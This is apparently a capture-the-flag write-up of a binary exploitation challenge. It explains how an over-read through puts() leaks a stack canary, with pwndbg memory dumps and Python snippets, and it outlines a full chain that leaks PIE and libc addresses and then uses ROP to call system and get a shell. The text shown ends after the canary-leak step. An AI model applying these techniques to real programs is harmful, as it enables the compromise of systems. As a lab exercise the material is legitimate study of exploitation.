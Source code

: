 A certain length of input always output the same set of weird characters, and sometimes it does not output anything weird characters.   
After a quick chatgpt, I know that it is 
```
puts(buffer);
```
being vulnerable as it print stuff until null terminator `\0`.  
Here is how the memory looks like: 
```
pwndbg> x/32xb $rbp-0x20
0x7ffc0d435a30: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffc0d435a38: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffc0d435a40: 0x41    0x41    0x41    0x41    0x41    0x41    0x41    0x41
0x7ffc0d435a48: 0x00    0x54    0x08    0x43    0xd2    0xc3    0xc6    0x73
pwndbg> x/8xb $rbp-0x8
0x7ffc0d435a48: 0x00    0x54    0x08    0x43    0xd2    0xc3    0xc6    0x73
pwndbg> x/gx $rbp-0x8
0x7ffc0d435a48: 0x73c6c3d243085400
```
Our buffer starts at `rbp-0x20` which is `0x7ffc0d435a30` and `puts(buffer)` would just keep outputing stuff until `0x00` at the start of address `0x7ffc0d435a48`. To add on, `0x7ffc0d435a48` is actually `rbp-0x8`, it is canary and that null byte `0x00` is actually the ending byte of canary as the content is displayed in little endian (backwards).  
In this case, the null byte stops the output and nothing other than those 'AAAA...'s would be printed.

## Attack 
Attack flow:  
1. leak canary to allow going to return address and start ROP chain 
2. leak PIE base address by leaking a `.text` address, e.g. the return address 
3. Going back to `time_loop` and start day 1 and 2 again 
4. leak a libc function address that is spotted on the stack to leak libc version and calculate `system`
5. call `system` with ROP chain on the last day on the second `time_loop` to get a shell 
### First day: Getting canary leaked
```
0x7ffc0d435a48: 0x00    0x54    0x08    0x43    0xd2    0xc3    0xc6    0x73
```
To get this canary leaked, we first have to let the program prints it. Therefore, we have to cover to null byte with something so that the program would continue printing stuff until the next null byte
```
0x7ffc0d435a48: 0x41    0x54    0x08    0x43    0xd2    0xc3    0xc6    0x73
0x7ffc0d435a50: 0x70    0x5a    0x43    0x0d    0xfc    0x7f    0x00 
```
Now, some exact stuff `0x70    0x5a    0x43    0x0d    0xfc    0x7f ` i.e. the `saved old rbp` at `rbp-0x0` would also get printed, we then just need to discard them with some python byte parsing
```py
output = p.recvuntil(b"Dawn")
canary_bytes = output[24:32]
```
There is also one more problem, we modified the null byte of the canary to something else 
```
0x43af40d82882741
```
so we need to recover it
```py
canary = canary & 0xffffffffffffff00 
```
And then we should see something like 
```
0x43af40d82882700
```
We got the canary! 
